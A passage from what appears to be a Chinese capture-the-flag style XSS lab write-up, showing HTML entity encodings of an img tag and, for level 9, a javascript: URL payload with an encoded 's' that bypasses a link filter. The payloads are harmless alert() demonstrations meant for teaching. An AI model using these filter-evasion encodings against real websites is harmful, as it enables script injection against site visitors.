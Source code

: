    结果是：   

   ```html
   <img src="localhost">
   ```

2. ​    十进制的ASCLL编码,格式:    `以符号&#开头，分号;结尾`   

​    ascll编码对照表   

```html
<textarea name="" id="textarea" cols="30" rows="10">
    &#60;&#105;mg src&#61;"localhost"&#62;
  </textarea>
```

3、Unicode字符编码,格式:    `以符号&#开头，分号;结尾`

```
  <textarea name="" id="textarea" cols="30" rows="10">
    <img src&#0061;&#0034;localhost&#0034;>
  </textarea>
```

4、十六进制的ascll码，格式：    `以&#x开头，分号;结尾`

```html
<textarea name="" id="textarea" cols="30" rows="10">
    <img src&#x3D;&#x0022;localhost&#x0022;>
  </textarea>
```







### level9

题目描述与上题类似，但是查看源码，

![image-20221216142830957](https://s2.loli.net/2022/12/16/HRO8Jz2XPnFAkM5.png)

提示链接不合法，于是我们推断可能链接需要有 http://  标识

```js
javascript:alert('http://')
```

并且将 s 进行编码：

xss：

```js
java&#x0073;cript:alert('http://')
```



[编码网址](http://www.jsons.cn/unicode)



